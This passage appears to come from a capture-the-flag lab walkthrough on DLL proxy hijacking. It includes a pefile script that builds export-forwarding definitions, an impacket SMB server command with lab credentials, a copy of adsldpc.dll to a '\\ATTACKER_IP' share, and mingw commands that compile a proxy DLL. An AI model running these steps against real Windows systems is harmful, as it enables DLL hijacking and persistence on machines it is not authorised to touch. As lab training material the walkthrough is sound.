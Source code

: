 In the get_exports.py paste this

```python
import pefile
import argparse

parser = argparse.ArgumentParser(description='Target DLL.')
parser.add_argument('--target', required=True, type=str,help='Target DLL')
parser.add_argument('--originalPath', required=True, type=str,help='Original DLL path')

args = parser.parse_args()

target = args.target
original_path = args.originalPath.replace('\\','/')

dll = pefile.PE(target)

print("EXPORTS", end="\r\n")

for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print(f"    {export.name.decode()}={original_path}.{export.name.decode()} @{export.ordinal}", end="\r\n")
```

Now go back to your home folder and run the smbserver again like we did in the last task.

```bash
/opt/impacket/examples/smbserver.py -smb2support -username thm-unpriv -password Password321 public share
```

Hop on the windows box and copy over the **adsldpc.dll** to your attack box.

```shell
copy C:\Windows\System32\adsldpc.dll \\ATTACKER_IP\public\
```

Now the dll should be in your share folder.
cd into the share folder and run the **get_exports.py** script with the following arguments.

```bash
python3 get_exports.py --target adsldpc.dll --originalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def
```

Now we will compile a new dll (again I recomend using the attack box as it already has the required packages).

- We will run this first to output a proxy.o file
```bash
x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel
```
- Then compile the .o and .def files to the .dll
```bash
x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll
```
